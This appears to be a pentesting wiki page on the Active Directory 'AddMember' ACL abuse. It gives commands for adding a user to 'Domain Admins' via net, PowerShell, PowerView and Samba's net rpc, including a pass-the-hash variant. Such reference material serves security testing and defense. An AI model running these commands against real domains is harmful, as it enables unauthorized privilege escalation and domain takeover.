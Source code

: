 # AddMember

This abuse can be carried out when controlling an object that has `AllExtendedRights`, `Self`, `WriteProperty`, `GenericWrite` or `GenericAll` over a target group.

{% tabs %}
{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Command line ()
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}

{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endtab %}
{% endtabs %}

